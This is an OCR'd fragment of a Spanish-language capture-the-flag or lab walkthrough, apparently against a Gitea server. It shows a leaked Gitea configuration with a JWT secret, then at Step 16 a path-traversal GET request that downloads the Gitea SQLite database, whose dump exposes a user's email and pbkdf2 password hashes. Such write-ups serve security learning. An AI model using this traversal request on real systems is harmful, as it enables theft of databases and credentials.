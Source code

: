 ```xml  
DEFAULT_KEEP_EMAIL_PRIVATE = false
DEFAULT_ALLOW_CREATE_ORGANIZATION = true
DEFAULT_ENABLE_TIMETRACKING = true
NO_REPLY_ADDRESS = noreply.localhost

[lfs]
PATH = /data/git/lfs

[mailer]
ENABLED = false

[openid]
ENABLE_OPENID_SIGNIN = true
ENABLE_OPENID_SIGNUP = true

[cron.update_checker]
ENABLED = false

[repository.pull-request]
DEFAULT_MERGE_STYLE = merge

[repository.signing]
DEFAULT_TRUST_MODEL = committer

[oauth2]
JWT_SECRET = FIAOKLQX4SBzvZ9eZnHYLTCiVGoBtkE4y5B7vMjzz3g
```

Explicación: destacamos esta ruta con posibilidad de descargar una base de datos la cual ejecutar con *sqlite*: `/data/gitea/gitea.db`


## Paso 16 - 

Acción: 

```xml 
GET /download?ticket=../../../home/developer/gitea/data/gitea/gitea.db HTTP/1.1
```

Resultado: 

```xml  

!user123user123user@user.comenabled24d2ac995e818c64d8256923ebd5ba601fe29eb25ac5c46954c311685448e39ed07eb6c5eaf29d94bef83aa4928226ef80f0pbkdf2$50000$50440d0d61d2bf04ca8c07437b3d0b0230771096fa8ba6d019a3c1c04769a0dcacen-USh
^ãh
^êh
^ãÿ88b87698be0bc461f3cacf1f080929d5user@user.comgitea-auto`0
```

Explicación: encontramos hasheados algunos usuarios y posibles credenciales
